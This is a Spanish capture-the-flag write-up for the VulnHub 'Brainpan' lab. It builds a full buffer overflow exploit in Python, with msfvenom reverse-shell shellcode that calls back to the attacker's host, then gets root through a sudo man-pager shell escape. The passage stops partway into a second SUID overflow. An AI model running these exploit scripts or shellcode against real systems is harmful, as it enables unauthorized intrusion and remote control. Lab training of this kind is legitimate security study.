Resolución de la máquina Brainpan de la plataforma de VulnHub
Iniciamos escaneando los puertos de la máquina con nmap, solo vemos ftp y otro puerto
❯ nmap 192.168.100.62
Nmap scan report for 192.168.100.62
PORT STATE SERVICE
9999/tcp open abyss
10000/tcp open snet-sensor-mgmt
En el puerto 9999 nos encontramos un servicio personalizado que nos pide una contraseña
❯ netcat 192.168.100.62 9999
_| _|
_|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_|
_| _| _|_| _| _| _| _| _| _| _| _| _| _| _|
_| _| _| _| _| _| _| _| _| _| _| _| _| _|
_|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|
_|
_|
[________________________ WELCOME TO BRAINPAN _________________________]
ENTER THE PASSWORD
>> test
ACCESS DENIED
En el puerto 10000 encontramos una plantilla que habla de vulns pero no nos dice nada
Pensando que nos pueden compartir algo buscaremos posibles directorios con ayuda de gobuster
❯ gobuster dir -u http://192.168.100.62:10000/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100
===============================================================
[+] Url: http://192.168.100.62:10000/
[+] Threads: 100
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/bin (Status: 301) [Size: 0] [--> /bin/]
Al verlo desde el navegador encontramos que nos comparten un archivo con extensión .exe

Lo descargamos y al ejecutarlo en un windows vemos que se queda en espera de conexiones
PS C:\Users\pc1\Desktop> .\brainpan.exe
[+] initializing winsock...done.
[+] server socket created.
[+] bind done on port 9999
[+] waiting for connections.
Podemos pensas que tiene una vulnerabilidad de buffer overflow en el campo de la contraseña
Para explotarlo, lo primero que necesitamos es fuzzear la cantidad de bytes para que se corrompa el binario, esto para tener una idea del offset
#!/usr/bin/python3
from pwn import log, socket, time
buffer = [b"A"]
counter = 100
bar = log.progress("")
while len(buffer) < 32:
buffer.append(b"A" * counter)
counter = counter + 100
for strings in buffer:
try:
time.sleep(1)
bar.status(f"Enviando: {len(strings)} bytes")
shell = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = shell.connect(("192.168.204.1", 9999))
shell.send(strings + b"\r\n")
data = shell.recv(1024)
shell.close()
except:
bar.success(f"El programa se detuvo al enviar: {len(strings)} bytes")
exit()
Al ejecutar el script corriendo el .exe podemos ver que se detiene al enviar 600 bytes
❯ python3 fuzzer.py
[+] El programa se detuvo al enviar: 600 bytes
Ahora con ayuda de la herramienta pattern_create de metasploit creamos uno de 600 bytes
❯ pattern_create -l 600
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9
Creamos un nuevo exploit que en este caso solo enviara todo el pattern_creado
#!/usr/bin/python3
from pwn import log, socket
pattern = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9"
log.info("Enviando pattern")
shell = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = shell.connect(("192.168.204.1", 9999))
shell.send(pattern)
data = shell.recv(1024)
shell.close()
Ahora lo que necesitamos es controlar el EIP, para esto usaremos Immunity Debugger, asi que abrimos el exe y lo corremos

Al ejecutar el exploit se enviara todo nuestro pattern
❯ python3 offset.py
[*] Enviando pattern
En Immunity Debugger podemos ver que el EIP vale 35724134

Ayudandonos de pattern_offset también de metasploit podemos ver que se necesita una cantidad total de 524 bytes antes de sobreescribir el registro EIP
❯ pattern_offset -q 35724134
[*] Exact match at offset 524
Podemos comprobarlo creando un script que envie un total de 524 veces A y 4 veces B, si estamos en lo correcto EIP deberia valer 42424242 que son las 4 B
#!/usr/bin/python3
from pwn import log, socket
offset = 524
junk = b"A" * offset
log.info("Enviando data")
shell = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = shell.connect(("192.168.204.1", 9999))
shell.send(junk + b"B" * 4)
data = shell.recv(1024)
shell.close()
Corremos el script y podemos ver que ek EIP vale 42424242, tenemos el control, del EIP
❯ python3 eip.py
[*] Enviando data

Lo que ahora necesitamos es detectar badchars que puedan darnos problemas asi que con ayuda de mona crearemos un bytearray quitando de primeras el \x00 ya que siempre da problemas
!mona bytearray -cpb "\x00"

Al script anterior simplemente le agregaremos los badchars para enviarlos despues del EIP
#!/usr/bin/python3
from pwn import log, socket
offset = 524
junk = b"A" * offset
badchars = b""
badchars += b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
badchars += b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
badchars += b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
badchars += b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
badchars += b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
badchars += b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
badchars += b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
badchars += b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
log.info("Enviando badchars")
shell = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = shell.connect(("192.168.204.1", 9999))
shell.send(junk + b"B" * 4 + badchars)
data = shell.recv(1024)
shell.close()
Ejecutamos el script para enviar los badchars
❯ python3 badchars.py
[*] Enviando badchars
Ahora nos centraremos en la dirección del ESP que es la que usaremos como argumento para con mona compare compararlo con el archivo bytearray.bin y detectar posibles badchars

Al ejecutar mona compare nos muestra solo \x00 asi que probablemente solo hay un badchar
!mona compare -f bytearray.bin -a 005FF910


Usamos mona para listar los modulos y vemos que el mismo brainpan.exe no tiene protecciones
!mona modules


Ahora lo que queremos buscar en ese modulo es una dirección que aplique un jmp ESP, para esto podemos usar nasm_shell de metasploit para ver su valor que es FFE4
❯ nasm_shell
nasm > jmp ESP
00000000 FFE4 jmp esp
Entonces con mona buscaremos \xff\xe4 usando el login_support.dll como modulo
!mona find -s "\xff\xe4" -m brainpan.exe

Como resultado conseguimos 1 dirección, pero como estamos en 32 bits hay que darle la vuelta

\x31\x17\x12\xf3 --> \xf3\x12\x17\x31
Ahora tenemos que crear un shellcode con msfvenom que se encargue de crearnos una reverse shell, pasandole los badchars para evitar que los introduzca en el shellcode y de conflictos
❯ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.100.41 LPORT=443 EXITFUNC=thread -a x86 -b "\x00" -f python -v shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Payload size: 351 bytes
Final size of python file: 1965 bytes
shellcode = b""
shellcode += b"\xda\xd3\xba\x0d\xc5\xfc\x6d\xd9\x74\x24\xf4"
shellcode += b"\x5e\x29\xc9\xb1\x52\x31\x56\x17\x83\xc6\x04"
shellcode += b"\x03\x5b\xd6\x1e\x98\x9f\x30\x5c\x63\x5f\xc1"
shellcode += b"\x01\xed\xba\xf0\x01\x89\xcf\xa3\xb1\xd9\x9d"
shellcode += b"\x4f\x39\x8f\x35\xdb\x4f\x18\x3a\x6c\xe5\x7e"
shellcode += b"\x75\x6d\x56\x42\x14\xed\xa5\x97\xf6\xcc\x65"
shellcode += b"\xea\xf7\x09\x9b\x07\xa5\xc2\xd7\xba\x59\x66"
shellcode += b"\xad\x06\xd2\x34\x23\x0f\x07\x8c\x42\x3e\x96"
shellcode += b"\x86\x1c\xe0\x19\x4a\x15\xa9\x01\x8f\x10\x63"
shellcode += b"\xba\x7b\xee\x72\x6a\xb2\x0f\xd8\x53\x7a\xe2"
shellcode += b"\x20\x94\xbd\x1d\x57\xec\xbd\xa0\x60\x2b\xbf"
shellcode += b"\x7e\xe4\xaf\x67\xf4\x5e\x0b\x99\xd9\x39\xd8"
shellcode += b"\x95\x96\x4e\x86\xb9\x29\x82\xbd\xc6\xa2\x25"
shellcode += b"\x11\x4f\xf0\x01\xb5\x0b\xa2\x28\xec\xf1\x05"
shellcode += b"\x54\xee\x59\xf9\xf0\x65\x77\xee\x88\x24\x10"
shellcode += b"\xc3\xa0\xd6\xe0\x4b\xb2\xa5\xd2\xd4\x68\x21"
shellcode += b"\x5f\x9c\xb6\xb6\xa0\xb7\x0f\x28\x5f\x38\x70"
shellcode += b"\x61\xa4\x6c\x20\x19\x0d\x0d\xab\xd9\xb2\xd8"
shellcode += b"\x7c\x89\x1c\xb3\x3c\x79\xdd\x63\xd5\x93\xd2"
shellcode += b"\x5c\xc5\x9c\x38\xf5\x6c\x67\xab\x3a\xd8\xa6"
shellcode += b"\xab\xd3\x1b\x28\xad\x98\x95\xce\xc7\xce\xf3"
shellcode += b"\x59\x70\x76\x5e\x11\xe1\x77\x74\x5c\x21\xf3"
shellcode += b"\x7b\xa1\xec\xf4\xf6\xb1\x99\xf4\x4c\xeb\x0c"
shellcode += b"\x0a\x7b\x83\xd3\x99\xe0\x53\x9d\x81\xbe\x04"
shellcode += b"\xca\x74\xb7\xc0\xe6\x2f\x61\xf6\xfa\xb6\x4a"
shellcode += b"\xb2\x20\x0b\x54\x3b\xa4\x37\x72\x2b\x70\xb7"
shellcode += b"\x3e\x1f\x2c\xee\xe8\xc9\x8a\x58\x5b\xa3\x44"
shellcode += b"\x36\x35\x23\x10\x74\x86\x35\x1d\x51\x70\xd9"
shellcode += b"\xac\x0c\xc5\xe6\x01\xd9\xc1\x9f\x7f\x79\x2d"
shellcode += b"\x4a\xc4\x99\xcc\x5e\x31\x32\x49\x0b\xf8\x5f"
shellcode += b"\x6a\xe6\x3f\x66\xe9\x02\xc0\x9d\xf1\x67\xc5"
shellcode += b"\xda\xb5\x94\xb7\x73\x50\x9a\x64\x73\x71"
Tenemos todo, nuestro exploit enviara un payload que son las A necesarias para llegar el EIP ahi le pasamos la dirección que hace el jmp al ESP, ademas le pasamos 16 nops para que tenga un poco de tiempo antes de interpretar el shellcode para que nos envie la shell
#!/usr/bin/python3
from pwn import log, socket
offset = 524
junk = b"A" * offset
jmpesp = b"\xf3\x12\x17\x31"
nops = b"\x90" * 16
shellcode = b""
shellcode += b"\xda\xd3\xba\x0d\xc5\xfc\x6d\xd9\x74\x24\xf4"
shellcode += b"\x5e\x29\xc9\xb1\x52\x31\x56\x17\x83\xc6\x04"
shellcode += b"\x03\x5b\xd6\x1e\x98\x9f\x30\x5c\x63\x5f\xc1"
shellcode += b"\x01\xed\xba\xf0\x01\x89\xcf\xa3\xb1\xd9\x9d"
shellcode += b"\x4f\x39\x8f\x35\xdb\x4f\x18\x3a\x6c\xe5\x7e"
shellcode += b"\x75\x6d\x56\x42\x14\xed\xa5\x97\xf6\xcc\x65"
shellcode += b"\xea\xf7\x09\x9b\x07\xa5\xc2\xd7\xba\x59\x66"
shellcode += b"\xad\x06\xd2\x34\x23\x0f\x07\x8c\x42\x3e\x96"
shellcode += b"\x86\x1c\xe0\x19\x4a\x15\xa9\x01\x8f\x10\x63"
shellcode += b"\xba\x7b\xee\x72\x6a\xb2\x0f\xd8\x53\x7a\xe2"
shellcode += b"\x20\x94\xbd\x1d\x57\xec\xbd\xa0\x60\x2b\xbf"
shellcode += b"\x7e\xe4\xaf\x67\xf4\x5e\x0b\x99\xd9\x39\xd8"
shellcode += b"\x95\x96\x4e\x86\xb9\x29\x82\xbd\xc6\xa2\x25"
shellcode += b"\x11\x4f\xf0\x01\xb5\x0b\xa2\x28\xec\xf1\x05"
shellcode += b"\x54\xee\x59\xf9\xf0\x65\x77\xee\x88\x24\x10"
shellcode += b"\xc3\xa0\xd6\xe0\x4b\xb2\xa5\xd2\xd4\x68\x21"
shellcode += b"\x5f\x9c\xb6\xb6\xa0\xb7\x0f\x28\x5f\x38\x70"
shellcode += b"\x61\xa4\x6c\x20\x19\x0d\x0d\xab\xd9\xb2\xd8"
shellcode += b"\x7c\x89\x1c\xb3\x3c\x79\xdd\x63\xd5\x93\xd2"
shellcode += b"\x5c\xc5\x9c\x38\xf5\x6c\x67\xab\x3a\xd8\xa6"
shellcode += b"\xab\xd3\x1b\x28\xad\x98\x95\xce\xc7\xce\xf3"
shellcode += b"\x59\x70\x76\x5e\x11\xe1\x77\x74\x5c\x21\xf3"
shellcode += b"\x7b\xa1\xec\xf4\xf6\xb1\x99\xf4\x4c\xeb\x0c"
shellcode += b"\x0a\x7b\x83\xd3\x99\xe0\x53\x9d\x81\xbe\x04"
shellcode += b"\xca\x74\xb7\xc0\xe6\x2f\x61\xf6\xfa\xb6\x4a"
shellcode += b"\xb2\x20\x0b\x54\x3b\xa4\x37\x72\x2b\x70\xb7"
shellcode += b"\x3e\x1f\x2c\xee\xe8\xc9\x8a\x58\x5b\xa3\x44"
shellcode += b"\x36\x35\x23\x10\x74\x86\x35\x1d\x51\x70\xd9"
shellcode += b"\xac\x0c\xc5\xe6\x01\xd9\xc1\x9f\x7f\x79\x2d"
shellcode += b"\x4a\xc4\x99\xcc\x5e\x31\x32\x49\x0b\xf8\x5f"
shellcode += b"\x6a\xe6\x3f\x66\xe9\x02\xc0\x9d\xf1\x67\xc5"
shellcode += b"\xda\xb5\x94\xb7\x73\x50\x9a\x64\x73\x71"
log.info("Enviando shellcode")
shell = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = shell.connect(("192.168.204.1", 9999))
shell.send(junk + jmpesp + nops + shellcode + b"\n\r")
data = shell.recv(1024)
shell.close()
log.success("Revisa tu listener")
Finalmente solo ejecutamos el exploit y recibimos una shell en nuestro listener
❯ python3 exploit.py
[*] Enviando shellcode
[+] Revisa tu listener
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 192.168.204.1
Microsoft Windows [Versión 10.0.22621.1105]
(c) Microsoft Corporation. Todos los derechos reservados.
C:\Users\pc1\Desktop>whoami
gatogamer1155\pc1
C:\Users\pc1\Desktop>
Esto fue en local, para la máquina brainpan solo hace falta cambiar la ip en el script
connect = shell.connect(("192.168.100.62", 9999))
Volvemos a ejecutar el script y conseguimos una shell como puck en la máquina victima
❯ python3 exploit.py
[*] Enviando shellcode
[+] Revisa tu listener
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 192.168.100.62
CMD Version 1.4.1
Z:\home\puck>whoami
File not found.
Z:\home\puck>
No reconoce comandos como whoami, y tiene sentido porque aunque es un exe lo que corre por detrás es un linux, asi que cambiaremos el payload con msfvenom
❯ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.100.41 LPORT=443 EXITFUNC=thread -a x86 -b "\x00" -f python -v shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
shellcode = b""
shellcode += b"\xd9\xe1\xd9\x74\x24\xf4\xb8\xb6\xfb\x1a\x01"
shellcode += b"\x5b\x29\xc9\xb1\x12\x31\x43\x17\x83\xc3\x04"
shellcode += b"\x03\xf5\xe8\xf8\xf4\xc8\xd5\x0a\x15\x79\xa9"
shellcode += b"\xa7\xb0\x7f\xa4\xa9\xf5\x19\x7b\xa9\x65\xbc"
shellcode += b"\x33\x95\x44\xbe\x7d\x93\xaf\xd6\xbd\xcb\x34"
shellcode += b"\x0f\x56\x0e\xb5\x4e\x1d\x87\x54\xe0\x07\xc8"
shellcode += b"\xc7\x53\x7b\xeb\x6e\xb2\xb6\x6c\x22\x5c\x27"
shellcode += b"\x42\xb0\xf4\xdf\xb3\x19\x66\x49\x45\x86\x34"
shellcode += b"\xda\xdc\xa8\x08\xd7\x13\xaa"
Solo cambiaremos el shellcode y el script final quedaria asi
#!/usr/bin/python3
from pwn import log, socket
offset = 524
junk = b"A" * offset
jmpesp = b"\xf3\x12\x17\x31"
nops = b"\x90" * 16
shellcode = b""
shellcode += b"\xd9\xe1\xd9\x74\x24\xf4\xb8\xb6\xfb\x1a\x01"
shellcode += b"\x5b\x29\xc9\xb1\x12\x31\x43\x17\x83\xc3\x04"
shellcode += b"\x03\xf5\xe8\xf8\xf4\xc8\xd5\x0a\x15\x79\xa9"
shellcode += b"\xa7\xb0\x7f\xa4\xa9\xf5\x19\x7b\xa9\x65\xbc"
shellcode += b"\x33\x95\x44\xbe\x7d\x93\xaf\xd6\xbd\xcb\x34"
shellcode += b"\x0f\x56\x0e\xb5\x4e\x1d\x87\x54\xe0\x07\xc8"
shellcode += b"\xc7\x53\x7b\xeb\x6e\xb2\xb6\x6c\x22\x5c\x27"
shellcode += b"\x42\xb0\xf4\xdf\xb3\x19\x66\x49\x45\x86\x34"
shellcode += b"\xda\xdc\xa8\x08\xd7\x13\xaa"
log.info("Enviando shellcode")
shell = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = shell.connect(("192.168.100.62", 9999))
shell.send(junk + jmpesp + nops + shellcode + b"\n\r")
data = shell.recv(1024)
shell.close()
log.success("Revisa tu listener")
Lo ejecutamos nuevamente y ahora si tenemos una shell de linux, conseguimos el usuario
❯ python3 exploit.py
[*] Enviando shellcode
[+] Revisa tu listener
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 192.168.100.62
export HOME=/home/puck
script /dev/null -c bash
puck@brainpan:~$ id
uid=1002(puck) gid=1002(puck) groups=1002(puck)
puck@brainpan:~$ hostname -I
192.168.100.62
puck@brainpan:~$
Mirando privilegios de sudoers encontramos que podemos ejecutar un binario como root
puck@brainpan:~$ sudo -l
Matching Defaults entries for puck on this host:
secure_path=/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User puck may run the following commands on this host:
(root) NOPASSWD: /home/anansi/bin/anansi_util
puck@brainpan:~$
Ejecutandolo tenemos varias opciones entre ellas ver el manual de un comando
puck@brainpan:~$ sudo /home/anansi/bin/anansi_util
Usage: /home/anansi/bin/anansi_util [action]
Where [action] is one of:
- network
- proclist
- manual [command]
puck@brainpan:~$
Al mostrar el manual entra en un modo paginate, si escribimos bash somos root
puck@brainpan:~$ sudo /home/anansi/bin/anansi_util manual whoami
WHOAMI(1) User Commands
NAME
whoami - print effective userid
SYNOPSIS
whoami [OPTION]...
DESCRIPTION
Print the user name associated with the current effective user ID. Same as id -un.
--help display this help and exit
--version
output version information and exit
AUTHOR
Written by Richard Mlynarik.
REPORTING BUGS
Report whoami bugs to bug-coreutils@gnu.org
GNU coreutils home page: .
This is free software: you are free to change and redistribute it. There is NO WARRANTY, to the extent permitted by law.
SEE ALSO
The full documentation for whoami is maintained as a Texinfo manual. If the info and whoami programs are properly installed at your site, the command
info coreutils 'whoami invocation'
should give you access to the complete manual.
GNU coreutils 8.12.197-032bb
Manual page whoami(1) line 1/41 (END) (press h for help or q to quit) !bash
root@brainpan:/usr/share/man# id
uid=0(root) gid=0(root) groups=0(root)
root@brainpan:/usr/share/man# hostname -I
192.168.100.62
root@brainpan:/usr/share/man#
Esta es una forma fácil, pero hay otra forma de escalar privilegios, con un binario suid
Buscando archivos suid encontramos el binario validate que pertenece a anansi
puck@brainpan:~$ find / -perm -4000 2>/dev/null
/bin/umount
/bin/su
/bin/mount
/bin/fusermount
/bin/ping6
/bin/ping
/usr/bin/sudo
/usr/bin/mtr
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/sudoedit
/usr/bin/chfn
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/lppasswd
/usr/bin/passwd
/usr/bin/gpasswd
/usr/sbin/uuidd
/usr/sbin/pppd
/usr/local/bin/validate
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/pt_chown
puck@brainpan:~$ ls -l /usr/local/bin/validate
-rwsr-xr-x 1 anansi anansi 8761 Mar 4 2013 /usr/local/bin/validate
puck@brainpan:~$
Al ejecutarlo nos pide un argumento, pero realmente no hace nada al darselo
puck@brainpan:~$ validate
usage validate <input>
puck@brainpan:~$ validate test
validating input...passed.
puck@brainpan:~$
Lo pasamos a nuestra máquina y empezamos a debuguearlo, iniciamos por el offset
Creamos un patron con la herramienta de metasploit en este caso de 200 bytes
❯ pattern_create -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Ahora corremos el programa con gdb pasandole como argumento el patrón
❯ gdb -q ./validate
Reading symbols from ./validate...
gdb-peda$ run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /home/gato/Desktop/Vulnhub/Brainpan/validatea/validate Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
